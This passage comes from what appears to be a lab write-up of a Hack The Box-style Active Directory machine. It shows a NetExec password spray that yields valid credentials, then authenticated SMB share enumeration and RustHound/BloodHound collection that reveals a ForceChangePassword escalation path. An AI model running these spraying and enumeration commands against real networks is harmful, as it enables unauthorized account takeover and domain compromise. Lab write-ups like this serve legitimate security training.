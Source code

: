 *   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u ridusers -p 'Ph4nt0m@5t4rt!' --continue-on-success --log ./Outputs/nxc/spray.txt
    ```
*   **Output Snippet**:
    ```zsh
    SMB         10.129.234.63   445    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt!
    ```
A successful login was achieved for the user `ibryant`, providing valid domain credentials and establishing an initial foothold.

---
### Discovery

With authenticated access, the enumeration process was repeated to uncover new information.

#### Exploring Shares with New Credentials

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u ibryant -p 'Ph4nt0m@5t4rt!' --shares
    ```
*   **Output**:
    ```zsh
    SMB         10.129.234.63   445    DC               Departments Share READ
    ```
`ibryant` had `READ` access to the `Departments Share`. Spidering this share revealed an interesting backup file: `IT/Backup/IT_BACKUP_201123.hc`, which appeared to be a VeraCrypt encrypted container.

#### BloodHound Analysis

`RustHound` was used to collect Active Directory data for analysis in `BloodHound`.

*   **Command**:
    ```zsh
    rusthound -u ibryant -p 'Ph4nt0m@5t4rt!' --domain phantom.vl --ldapip 10.129.234.63 --zip --output ./BloohoundIngest
    ```

**Immediate Findings:**

*   **High-Value Target (HVT):** The `svc_sspr` account was identified as a key target. It held membership in `REMOTE MANAGEMENT USERS` and possessed `ForceChangePassword` rights over `wsilva`, a member of the `ICT Security` group.
